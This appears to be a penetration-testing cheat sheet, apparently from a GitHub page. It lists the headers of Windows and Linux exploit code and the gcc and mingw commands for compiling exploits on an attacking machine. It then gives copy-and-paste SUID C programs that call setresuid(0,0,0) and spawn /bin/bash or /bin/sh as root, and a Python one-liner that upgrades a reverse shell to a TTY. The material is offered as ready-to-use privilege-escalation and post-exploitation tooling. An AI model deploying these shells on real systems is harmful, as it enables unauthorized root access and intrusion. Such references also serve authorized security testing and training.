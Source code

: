 	process.h, string.h, winbase.h, windows.h, winsock2.h
	Windows exploit code

	arpa/inet.h, fcntl.h, netdb.h, netinet/in.h,sys/sockt.h, sys/types.h, unistd.h
	Linux exploit code

### Build Exploit GCC
	
	Compile exploit gcc.
	gcc -o exploit exploit.c
	
	Basic GCC compile
		GCC Compile 32Bit Exploit on 64Bit Kali
		Handy for cross compiling 32 bit binaries on 64 bit attacking machines.
			gcc -m32 exploit.c -o exploit
			Cross compile 32 bit binary on 64 bit Linux

	Compile Windows .exe on Linux
	Build / compile windows exploits on Linux, resulting in a .exe file.
		i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
		Compile windows .exe on Linux

### SUID Binary

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.
below are some quick copy and pate examples for various shells:

	*SUID C Shell for /bin/bash*

	int main(void){
	       setresuid(0, 0, 0);
	       system("/bin/bash");
	}       

	*SUID C Shell for /bin/sh*

	int main(void){
	       setresuid(0, 0, 0);
	       system("/bin/sh");
	}       

	Building the SUID Shell binary
	gcc -o suid suid.c  

	For 32 bit:
	gcc -m32 -o suid suid.c  

### Reverse Shells

See Reverse Shell Cheat Sheet for a list of useful Reverse Shells.

	**TTY Shells**
	Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.
	
	Python TTY Shell Trick
	python -c 'import pty;pty.spawn("/bin/bash")'
